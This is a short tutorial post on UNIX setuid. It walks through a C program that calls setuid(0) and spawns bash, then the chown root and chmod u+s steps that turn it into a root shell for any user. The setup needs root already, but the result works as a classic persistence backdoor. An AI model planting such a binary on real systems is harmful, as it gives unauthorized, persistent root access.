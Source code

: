 ```yaml
---
title: "Privilege escalation with setuid"
tags: ["setuid", "setgid", "UNIX", "CLI"]
date: "2014-09-12T19:17:49Z"
lang: "en"
---
```


## What are setuid and setgid?

When applied on executable (and shell scripts if it's not disabled), setuid is a mechanism in UNIX systems to allow an user to execute a program with the owner's permissions. Setguid is the same principle, but we get the group permission instead of the user's.
If you want too know more about it or setgid (that we won't use), read the [Wikipedia article](https://en.wikipedia.org/wiki/Setuid).

In this article we will create a C program we will run as a normal user, and thanks to setuid it will spawn for us a shell (as root!).

## The code

Here's the code:
```C
#include <unistd.h>

int main()
{
	setuid(0);
	execl("/bin/bash", "bash", (char *)NULL);
	return 0;
}
```

`#include <unistd.h>` This library is needed to get `setuid()` and `execl()`.
`setuid(0)` We get privileges from the user 0, ie root.
`execl("/bin/bash", "bash", (char *)NULL);` Our program executes `/bin/bash`. The parameter `"bash"` is the filename of the program we execute, passing it is a convention.
`(char *)NULL)` The manual says our last argument must be a null pointer. This weird formula is the multiplatform version.

That's it. Pretty simple, uh?

## Let's try it!

Okay, now that we have our C source, we compile it:
`$ gcc -Wall trickyty.c -o trickyty` (my source file is trickyty.c).

Remember? The program must be owned by the setuided user, in this case: root.
```console
$ sudo chown root trickyty
```
And the program must have the setuid bit turned on.
```console
$ sudo chmod u+s trickyty
```

A little check to see if everything's good:
```console
$ ls -l trickyty
-rwsr-xr-x 1 root users 6894 11 sept. 22:05 trickyty
```
See the `s` in the permissions? It's the setuid bit.

Time to execute our program!
```console
$ ./trickyty
# whoami
root
```
Yes, we are root now!

Note that if you put your program on a removable drive and plug it in another computer, it won't work if said drive is mounted with the `nosuid` option.
